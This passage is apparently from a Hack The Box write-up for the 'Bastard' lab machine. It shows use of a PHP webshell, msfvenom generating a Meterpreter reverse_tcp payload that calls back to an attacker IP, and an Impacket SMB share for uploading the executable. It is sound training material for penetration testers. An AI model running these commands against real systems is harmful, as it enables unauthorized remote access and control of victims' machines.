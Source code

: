 Now if we visit the given URL and append `?cmd=whoami`, we can see that we have a shell as `nt authority\iusr`

![webshell-1](/images/bastard/webshell-1.png)

## Priv Esc to Administrator

### Generating a Meterpreter Payload
To start things of, I will generate a executable meterperter payload so that we can get a meterpreter session instead of this PHP webshell.

The command to generate a `.exe` payload is:

{% highlight bash linenos %}
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=4567 -f exe > msf.exe
{% endhighlight %}

 - Replacing LHOST with your HTB IP
 - Replacing LPORT with a port of your choosing

![msf-1](/images/bastard/msf-1.png)

### Setting Up Metasploit

To get a Meterpreter session we first need to upload our `msf.exe` file to the server, for this I will use [Impacket's](https://github.com/SecureAuthCorp/impacket) `smbserver.py` to spin up a smb share in our current working directory, then we will use the Windows `copy` command to get the file onto the machine.

To start a SMB Server simply run:
{% highlight powershell linenos %}
smbserver.py evilshare /root/htb/boxes/Bastard/
{% endhighlight %}

![smb-server](/images/bastard/smb-1.png)
